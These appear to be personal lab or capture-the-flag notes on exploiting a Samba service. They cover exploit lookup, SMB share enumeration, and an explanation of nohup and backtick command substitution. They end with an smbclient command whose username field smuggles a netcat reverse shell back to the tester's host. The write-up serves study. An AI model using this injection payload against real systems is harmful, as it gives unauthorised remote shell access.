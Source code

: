 View Exploit Details:
`searchploit -x 16320`
![[Pasted image 20240620132841.png]]

***
**SMB MAP**

![[Pasted image 20240620133100.png]]
`T1135: Discovery:SMB Host`
#TTP 

![[Pasted image 20240620133222.png]]

![[Pasted image 20240620133547.png]]

Investigate files:

![[Pasted image 20240620133926.png]]

Dead-end but we have an exploit to analyze
***
### **SMB Exploit**

- We know that no authentication is needed
- Useful to jump to the exploit functions and analyze code
![[Pasted image 20240620135505.png]]

- So we have username taking in a `nohup` no hang up and a payload that is surrounded by back-ticks
- Then a client negotiation presumably starting an smb connection
- The session then takes in the `username`, random 16 characters, and the SMB Domain


- `nohup`: Stands for 'no hang up'. It's a command that allows a process to run in the background even after the user has logged out. It is often used to keep processes running after disconnection from a remote session.
- Back-ticks `(``)`: In many shell environments, text enclosed in back-ticks is executed as a command. The output of the command replaces the back-ticks and the enclosed command.

Simple example in Linux:
![[Pasted image 20240620140622.png]]
- Here, Linux executes the `pwd` command enclosed in back-ticks and uses its output for the `ls` command

So lets try to find where we can use this payload when connecting to smb:
![[Pasted image 20240620141100.png]]

Lets copy the username payload and supply as argument


```
smbclient --no-pass --user="/=`nohup nc -e /bin/sh 10.10.16.17 5555`" //10.10.10.3/tmp
```
